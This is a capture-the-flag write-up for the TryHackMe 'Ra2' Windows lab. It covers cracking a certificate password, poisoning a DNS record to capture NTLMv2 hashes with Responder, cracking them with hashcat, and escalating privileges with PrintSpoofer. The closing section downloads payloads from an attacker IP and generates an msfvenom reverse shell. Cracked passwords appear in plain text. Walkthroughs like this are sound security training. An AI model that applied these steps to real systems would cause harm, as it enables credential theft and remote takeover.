

---
---

# THM - Ra2

NMAP
```bash
sudo nmap 10.10.176.236
```


```bash
sudo nmap 10.10.176.236 -A
```


- Add **fire.windcorp.thm** to /etc/hosts file

- Run gobuster on fire.windcorp.thm:
```bash
gobuster dir -u https://fire.windcorp.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

```


- Found /powershell


- Got no credentials yet for it

- Enumerating the https website - found:


Add selfservice to /etc/hosts

- Got a login box


- Inspecting the pictures we can see some usernames:


- Openfire users:


```bash
cat xmpp_info| cut -d ":" -f4 | cut -d '"' -f1 > xmpp_users

```


- Inspecting the certifcate - Found .dev


Add .dev to /etc/hosts


- Run dirb:

```bash
dirb https://selfservice.dev.windcorp.thm

```


Found **/backup**


- Download cert.pfx


- Tried enumerating it but needs a password:
```bash
openssl pkcs12 -in cert.pfx -info -noout

```


[https://www.openssl.org/docs/man1.0.2/man1/pkcs12.html](https://www.openssl.org/docs/man1.0.2/man1/pkcs12.html)

- Crack with **<u>crackpkcs12</u>**:
<https://crackpkcs12.sourceforge.net/>

(Apparently **pfx2john** can be used as well but it took so long I changed to crackpkcs12)


```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ../cert.pfx

```



- Found password:
**ganteng**

- Test password:
```bash
openssl pkcs12 -in cert.pfx -info -nodes

```


- Found a certificate and private key (copy into a file - for now)

- Use dig to query the DNS name with the DNS server(DC):
```bash
dig windcorp.thm any @10.10.176.236

```


- We get a flag and a hint


<https://www.exploit-db.com/exploits/3544>

This is what it looks like on Windows:


- Update records on the DNS server:


- The popup login page is on:
**selfservice.windcorp.thm**

```bash
nsupdate

```
```bash
> server 10.10.88.197  #DNS server's IP
> update delete selfservice.windcorp.thm A
> update add selfservice.windcorp.thm 5000 A 10.8.24.66  #Kali tun0 IP
> send
```


Test with dig:
```bash
dig selfservice.windcorp.thm @10.10.88.197  #-- DNS server's IP
```


- Use Responder to capture the potential sign in:

- Because this is a HTTPS server we need to use the cert and key we found earlier
- Split the cert and key into two files - cert.pem and key.pem
- Make sure the key.pem is chmod 600

- Copy the two files to ==/usr/share/responder/certs==


- Edit Responder.conf


- Scroll to the bottom and edit the HTTPS Server settings, with the new cert and key files:


- Run Responder
```bash
sudo responder -I tun0

```
- And:


- Stored in Responder/logs directory

- Copy the NTLMv2 hash to a file (ntlmhash)

- Crack with hashcat:
```bash
hashcat -m 5600 -a 0 ntlmhash /usr/share/wordlists/rockyou.txt

```


Got credentials:

WINDCORP\\**edwardle : !Angelus25!**

- Tried RDP cus 3389 is open but we aren't allowed:
```bash
xfreerdp /v:10.10.88.197 /u:edwardle /p:"\!Angelus25\!" /dynamic-resolution /cert:ignore

```
And evil-winrm:

```bash
evil-winrm -i 10.10.88.197 -u edwardle -p "\!Angelus25\!"

```
- Remembered we have the URL:
<https://fire.windcorp.thm/powershell>


```bash
whoami /all

```


- Using PrintSpoofer:
```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/PrintSpoofer.exe', 'C:\Users\edwardle.WINDCORP\Desktop\PrintSpoofer.exe')

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.24.66 LPORT=4445 -f exe -o reverse.exe

(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/reverse.exe', 'C:\Users\edwardle.WINDCORP\Desktop\reverse.exe')

.\PrintSpoofer.exe -c ".\reverse.exe"

```


Got shell:

